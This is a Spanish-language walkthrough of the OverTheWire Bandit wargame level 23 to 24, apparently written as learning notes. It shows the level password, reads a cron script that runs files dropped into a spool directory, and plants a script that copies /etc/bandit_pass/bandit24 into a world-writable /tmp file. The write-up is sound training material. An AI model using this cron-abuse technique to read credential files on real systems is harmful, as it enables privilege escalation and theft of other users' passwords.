 ## Bandit Level 23→ Level 24

## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel

```
Usuario: bandit23
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```
Bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh

bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Sep 4 01:54:12 AM UTC 2022
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```
## Notas adicionales

| Comando | Descripción |
|-----------|-----------|
| cat| me muestra el contenido de un archivo|
|- cat /|muestra el contenido de un archivo en un directorio en especifico|
| ls | lista los archivos|
|- ls / | lista los archivos de un directorio en especifico|
| - ls -a | muestra todos los archivos|
| - ls -l | muestra los archivos de forma mas detallada|
| mkdir | crea un directorio (carpeta)|
|- mkdir / | crea un directorio sobre otro|
| echo | se encarga de escribir un string dado en salida estandar|
| chmod | da permisos al usuario|
| touch | crea un archivo vacio|
| cp | copia un archivo a otro|
| date | muestra la fecha actual de la maquina|

## Referencias

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
